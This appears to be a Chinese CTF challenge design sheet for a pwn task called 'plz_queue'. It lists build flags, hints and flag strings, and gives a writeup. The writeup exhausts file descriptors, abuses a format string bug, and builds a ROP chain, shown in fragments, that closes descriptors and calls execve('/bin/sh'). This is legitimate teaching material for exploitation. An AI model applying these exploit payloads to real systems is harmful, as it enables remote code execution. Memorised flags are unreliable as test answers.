


# 赛题设计说明

## 题目信息：

* 题目名称：plz_queue
* 预估难度：中等偏难 （简单/中等偏易/中等偏难/困难）
* 编译命令：gcc plz_queue.c -o pwn -s -fstack-protector -fPIC -pie -Wl,-z,relro -Wl,-z,now

## 题目描述：

> 麻烦排下队哦

## 题目考点：

1. 不在栈上的格式化字符串漏洞
2. 文件描述符数量上限

## 思路简述：

通过栈上的一个二级指针与一级指针修改栈上返回地址


## 题目提示：

1. 栈上的二级指针
2. POW的计算是否可以避免呢?


## 原始 flag 及更新命令：

```shell
    # 原始 flag
    flag{flag_test}
    # ..
    # 更新 flag 命令
    echo 'flag{2ea57420-1316-42fb-b940-52b8b9b58eab}' > /flag
```

## 题目环境：

1. Ubuntu 18.04 LTS
2. xinetd + chroot

## 题目制作过程：

1. 编写 plz_queue.c 代码，详细代码请从 “源码” 文件夹获取，
2. 编译方式在源代码第一行，
3. 编写 xinetd 配置文件，设置好参数，
4. 生成 flag 文件，flag 为 flag{2ea57420-1316-42fb-b940-52b8b9b58eab}
5. 编写 Dockerfile。

注：如果是常规的 pwn 题，直接替换模板 docker 文件夹中的 pwn 以及 flag 文件即可，无需步骤3、4、5

## 题目 writeup：

1. 检查题目保护，发现保护全开
2. IDA发现Fsb漏洞以及file的UAF


3. 打开1024次以上/dev/urandom导致文件描述符总量达到上限（exp中设置为1536次）
4. 构造恶意的二级指针去修改rbp相对高地址数据造ROP执行gets(&rbp)
```python

```
5. gets(&rbp)写栈再次ROP执行close与syscall_execve
```python
                payload += '/bin/sh\0'+p64(fuck)*2
                payload += p64(pop_rdi)+p64(5)
                payload += p64(pop_rax)+p64(3)
                payload += p64(syscall)
                payload += p64(pop_rdi)+p64(6)
                payload += p64(pop_rax)+p64(3)
                payload += p64(syscall)
                payload += p64(pop_rdi)+p64(retad)
                payload += p64(pop_rsi)+p64(0)
                payload += p64(pop_rdx)+p64(0)
                payload += p64(pop_rax)+p64(0x3b)
                payload += p64(syscall)
```
6. 因为执行syscall对环境变量的check增加，故在gets时修复栈上数据
```python
                payload += p64(0)+p64(pbase+0xa10)
                payload += p64(retad+(0x7ffe6d841420-0x7ffe6d841340))
                payload += p64(pbase+0xa3a)
                payload += p64(retad+(0x7ffe6d841418-0x7ffe6d841340))
                payload += p64(0x1c)+p64(1)
                payload += p64(pname)
```
7. 编写 exp.py ，获取flag，详细代码请从 “exp脚本” 文件夹获取
8. 需注意，因为gets在docker中易受截断符干扰，故此攻击方法成功概率偏低，不在docker中部署时成功概率约0.023，docker中部署时约为0.006.

## 注意事项

1. 如可以不使用docker部署，建议使用socat部署